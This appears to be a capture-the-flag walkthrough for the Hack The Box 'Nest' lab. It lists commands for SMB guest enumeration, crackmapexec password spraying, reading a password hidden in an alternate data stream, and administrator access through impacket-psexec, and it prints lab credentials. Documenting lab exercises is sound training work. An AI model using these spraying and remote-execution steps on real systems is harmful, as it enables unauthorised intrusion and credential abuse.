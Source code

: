 # Nest Hack The Box Tips

# ${{\color{purple}Initial Recon}}\ $

``nmap -p- -oA fullnest 10.10.10.178``

445/tcp  open  microsoft-ds

4386/tcp open  unknown


``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![image](https://user-images.githubusercontent.com/123066149/219978012-ef2de3c1-ee16-4f12-a81d-e5d1c908e88e.png)

# ${{\color{purple}Initial Foothold}}\ $

``smbclient -U 'guest%' -L //10.10.10.178``  **:white_check_mark:**

![nest](https://user-images.githubusercontent.com/123066149/219977952-10bf82e2-17dd-4847-9662-7c0574cb3f03.PNG)

``smbmap -u 'guest%' -p '' -H 10.10.10.178``

![nest2](https://user-images.githubusercontent.com/123066149/219977955-11587394-53bb-4003-96db-4444483d1f9e.PNG)

``tree -f``

![nest6](https://user-images.githubusercontent.com/123066149/219978096-f7d14d29-972e-4762-bcc1-762285d76e56.PNG)

### After a good enumeration I found a password in the share :

![nest7](https://user-images.githubusercontent.com/123066149/219978134-ceda178d-80e0-486f-93b5-12f9d74e7f05.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

### See the difference in rights on the share:

``crackmapexec smb 10.10.10.178 -u 'seazeaz' -p 'azeazeazee'`` 

``crackmapexec smb 10.10.10.178 --shares -u 'TempUser' -p 'welcome2019'``

``crackmapexec smb 10.10.10.178 --shares -u 'c.smith' -p 'xRxRxPANCAK3SxRxRx'``

![image](https://user-images.githubusercontent.com/123066149/219978197-a0d102f9-3279-4ff7-a4e8-f5e79fe3eae2.png)

### Replay the password for other users :

``crackmapexec smb 10.10.10.178 -u users.lst -p welcome2019 --continue-on-success``

![nest3](https://user-images.githubusercontent.com/123066149/219978170-7567d458-4be6-4c03-9a94-38b500e6ef36.PNG)

### In a file named "Debug Mode Password.txté" I had to do a special command to find the password :

``allinfo "Debug Mode Password.txt``

``get "Debug Mode Password.txt":Password``

``cat Debug Mode Password.txt``

![nest4](https://user-images.githubusercontent.com/123066149/219978395-27c5720e-def1-46ee-8006-cfeb6154147d.PNG)

# ${{\color{purple}Exploitation}}\ $ 

### I have created directories and I mounted the share in the files to make a better enumeration :

``mkdir C.Smith``

``mkdir L.Frost``

``mkdir R.Thompson``

``mkdir TempUser``

``mount -t cifs -o 'username=L.Frost,password=welcom2019' //10.10.10.178/Users /mnt/L.Frost``

``mount -t cifs //10.10.10.178/Data /mnt/tmpuser -o "username=TempUser,password=welcome2019"``

``find .``  

### OR to exploit the structure

``tree -f``

# ${{\color{purple}Privilege Escalation}}\ $

``telnet 10.10.10.178 4386``

HQK Reporting Service V1.2

![nest9](https://user-images.githubusercontent.com/123066149/219978750-0df318a5-091d-4117-b511-1929e1a5637e.PNG)

![nest10](https://user-images.githubusercontent.com/123066149/219978754-492ceb49-2465-4b0b-a73d-5b066e660b46.PNG)

![nest11](https://user-images.githubusercontent.com/123066149/219978757-1e3f2a5e-e0a6-4f1f-9932-31d16f3defb1.PNG)

### The password was in vb format i used this site to decode it :

https://dotnetfiddle.net/LdhDaa

``/usr/bin/impacket-psexec administrator@10.10.10.178``

![nest5](https://user-images.githubusercontent.com/123066149/219978802-4d6431df-f61c-4545-b87e-256f69e4c39b.PNG)


# ${{\color{purple}Points of Improvement}}\ $

* Use crackmap for shares
* Mounter the shares on my computer for a perfect enumeration 
* Test the open ports with telent nc and netcat because they don't send the same data 
* Think about the ``allinfo`` method of smb commands for interesting files 
* Use the tree -f command for enumeration
* It's possible to retrieve all files from a share with the following smb commands

``allinfo "Debug Mode Password.txt`` 
``echo -n yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4= |base64 -d`` ### Base64 decode
``tree -f``

``smb: \> mask ""``
``smb: \> recurse``
``smb: \> prompt``
``smb: \> mget *``

